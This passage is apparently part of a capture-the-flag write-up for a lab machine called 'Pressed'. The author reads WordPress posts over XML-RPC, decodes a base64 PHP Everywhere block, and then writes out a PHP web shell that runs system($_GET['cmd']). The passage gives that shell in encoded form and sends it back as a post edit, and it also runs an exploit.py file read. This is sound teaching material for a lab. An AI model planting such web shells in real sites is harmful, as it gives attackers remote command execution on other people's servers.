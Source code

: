 We see that we can get user, password etc.:

```bash
>>> plist[0].user
'1'
>>> plist[0].password
''
>>> plist[0].link
'/index.php/2022/01/28/hello-world/'
>>> plist[0].content
'<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'

```

We see the php-everwhere implementation, and the code is base64 encoded. Let’s decode that on cyber chef and see what it’s actually doing; we also had to URL decode after:

![image.png]({{ site.baseurl }}/assets/pressed/image%2012.png)

If we get the output.log from the previous exploit:

```bash
python3 exploit.py http://pressed.htb /var/www/html/output.log
```

We see it matches with the output on the site:

![image.png]({{ site.baseurl }}/assets/pressed/image%2013.png)

Let’s try to inject a web shell. First we have to URL encode it, then base64 encode it. Let’s add our php code right after the original command:

```bash
<?php  echo(file_get_contents('/var/www/html/output.log')); system($_GET['cmd']); ?>
```

Now encode our code and edit the post:

![image.png]({{ site.baseurl }}/assets/pressed/image%2014.png)

```bash
JTNDP3BocCUyMCUyMGVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTslMjBzeXN0ZW0oJF9HRVQlNUInY21kJyU1RCk7JTIwPyUzRQ==
```

```bash
>>> mod_post = plist[0]
>>> mod_post.content = '<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUyMCUyMGVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTslMjBzeXN0ZW0oJF9HRVQlNUInY21kJyU1RCk7JTIwPyUzRQ==","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'
>>> client.call(posts.EditPost(mod_post.id, mod_post))
```
